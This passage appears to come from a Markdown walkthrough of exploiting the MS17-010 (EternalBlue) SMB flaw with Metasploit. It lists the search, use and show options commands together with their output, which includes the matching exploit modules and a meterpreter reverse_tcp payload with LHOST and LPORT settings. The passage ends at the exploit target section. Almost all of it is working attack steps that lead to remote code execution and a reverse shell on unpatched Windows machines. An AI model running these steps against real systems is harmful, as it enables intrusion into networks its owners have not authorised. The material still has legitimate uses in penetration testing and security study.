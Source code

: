 ```
search ms17-010
```
``output:``
```
Matching Modules
================

   #  Name                                      Disclosure Date  Rank     Check  Description
   -  ----                                      ---------------  ----     -----  -----------
   0  exploit/windows/smb/ms17_010_eternalblue  2017-03-14       average  Yes    MS17-010 EternalBlue SMB Remote Windows Kernel Pool Corruption
   1  exploit/windows/smb/ms17_010_psexec       2017-03-14       normal   Yes    MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Code Execution
   2  auxiliary/admin/smb/ms17_010_command      2017-03-14       normal   No     MS17-010 EternalRomance/EternalSynergy/EternalChampion SMB Remote Windows Command Execution
   3  auxiliary/scanner/smb/smb_ms17_010                         normal   No     MS17-010 SMB RCE Detection
   4  exploit/windows/smb/smb_doublepulsar_rce  2017-04-14       great    Yes    SMB DOUBLEPULSAR Remote Code Execution


```

after that we will ***use*** the first exploit:
### use exploit

```
use exploit/windows/smb/ms17_010_eternalblue
```
after that we need to see ***options*** : 
### show options
```
show options
```
``output`` : 
```
Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT          445              yes       The target port (TCP)
   SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines
                                             .
   SMBPass                         no        (Optional) The password for the specified username
   SMBUser                         no        (Optional) The username to authenticate as
   VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
   VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     ** YOUR_IP **    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:
```